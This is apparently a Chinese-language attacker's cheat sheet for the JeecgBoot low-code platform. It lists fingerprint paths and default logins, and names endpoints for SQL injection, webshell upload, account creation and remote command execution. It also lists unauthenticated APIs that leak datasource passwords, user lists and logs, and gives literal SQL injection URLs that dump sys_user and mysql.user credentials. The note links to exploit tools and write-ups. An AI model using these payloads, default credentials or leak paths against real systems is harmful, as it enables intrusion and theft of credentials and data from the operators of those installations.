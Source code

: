JEECG(J2EE Code Generation)是开源的代码生成平台，目前官方已停止维护。
**注：Jeecg 与 Jeecg-boot 非相同应用。** Jeccg官方地址为：https://gitee.com/jeecg/jeecg
^


jeecg-boot是一个基于SpringBoot的低代码开发平台CMS，号称最具影响力。



特征：
/system/
/sys/
/jeecg-boot/
/jeecg-boot/sys/
/jeecg-boot/sys/common/upload

演示站细看：<http://boot3.jeecg.com/login>
开发文档：<https://help.jeecg.com/java/java/qa.html>

JEECG的默认登录账号密码如下：
1. [账号：admin，密码：123456](http://idoc.jeecg.com/1275933)[](http://idoc.jeecg.com/1275933)[](https://www.cnblogs.com/CHENJIAO120/p/7079300.html)
2. [账号1：jeecg，密码1：jeecg#123456；账号2：qinfeng，密码2：jeecg#123456](http://jeecg.com/doc/demo)[](http://jeecg.com/doc/demo)
3. [在jeecg-cloud-nacos中，nacos鉴权的默认用户名密码为nacosnacos](https://segmentfault.com/a/1190000045065819)[](https://segmentfault.com/a/1190000045065819)
4. [在在线接口文档swagger中，登录名为jeecg，密码为jeecg1314](http://doc.jeecg.com/2043926)[](http://doc.jeecg.com/2043926)

^
## **存在多个历史漏洞**
工具：<https://github.com/R4gd0ll/I-Wanna-Get-All>
<https://my.oschina.net/jeecg/blog/10150942>
<https://xz.aliyun.com/t/15138?time__1311=GqjxuQD%3DeYqeqGNDQi5BKKdgzwxAKGC%2BCeD>

接口文档泄露：
/jeecg-boot/v2/api-docs

账号创建漏洞：
/jeecg-boot/server/sys/user/addy

任意文件上传，可以传webshell：
/jeecg-boot/commonController.do?parserXml

SQL注入：
1）/sys/duplicate/check
2）/sys/ng-alain/getDictItemsByTable/
3）/sys/diet/query/TableData
4）/jmreport/qurestSql

RCE：
/jeecg-boot/jmreport/queryFieldBySql
/jeecg-boot/jmreport/loadTableData
/jeecg-boot/jmreport/testConnection
/jeecg-boot/api/../jeecgFormDemoController

如：/jeecg-boot/jmreport/loadTableData命令执行：
<https://blog.csdn.net/qq_36334672/article/details/136025263>
设置token(可选)和请求体，响应包里有命令执行结果。
如：testConnection
<https://mp.weixin.qq.com/s/DW_tUQt9qjNb6woZy42xeA>

^
后台jdbc


^
工具：<https://mp.weixin.qq.com/s/loTo06eNhyUIxUIPGJQuzg>
用工具加上前缀/jeecg-boot/、/jeecgboot/、/xxx-boot/、/api/

^
敏感接口
```
数据源：
/monitor/datasource
/isystem/dataSource
/xxx/dataSource
/jeecgboot/sys/dataSource/list

看指定数据库的账号密码:
/jeecgboot/sys/dataSource/queryById?id=1209779538310004737

OSS存储数据列表：
/jeecgboot/sys/oss/file/list


附件数据列表：
/jeecgboot/system/sysFile/list
/api/system/sysFile/list


第三方配置：
/jeecgboot/sys/thirdApp/getThirdConfigByTenantId




字典
/jeecgboot/sys/dict/list?column=createTime&order=desc


用户列表
/jeecgboot/sys/user/listAll
/jeecgboot/sys/user/list



流程监听
/jeecgboot/act/process/extActListener/list


网关路由
/jeecgboot/sys/gatewayRoute/list



数据日志
/jeecgboot/sys/dataLog/list
登录日志
/jeecgboot/sys/log/list?logType=1
操作日志
/jeecgboot/sys/log/list?logType=2
异常日志
/jeecgboot/sys/log/list?logType=4


请求追踪，最近的请求
/jeecgboot/actuator/httptrace-new/all
/jeecgboot/actuator/httptrace-new/success

在线用户
/jeecgboot/sys/online/list




##### 版本号：
3.7.0
##### 问题描述：
当主表的数据关联不上子表的任何数据时，查看详情会弹出tips 子表获取数据失败:xxx，直接暴漏了子表的名称
```

^
## **漏洞**
getDictItemsByTable注入分析：<https://xz.aliyun.com/t/13186?time__1311=GqmhkD8iGNDKKYK0%3DeG%3Dt0QqitoQymmD>
```
sql注入账号密码查询。若报错可报项目路径
/sys/ng-alain/getDictItemsByTable/sys_user/username/password
/jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js
/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/username,password%20'/x.js

sys_third_app_config
sys_data_source
oss_file
mysql.user
要有查看权限对于语句 select *, ' as "label",x.js as "value" from ' from mysql.user

```
未授权泄露最近的请求路径
```
/sys/user/querySysUser?username=admin
/jeecg-boot/actuator/httptrace/


```

普通账户权限提升：
<https://github.com/jeecgboot/JeecgBoot/issues/5270>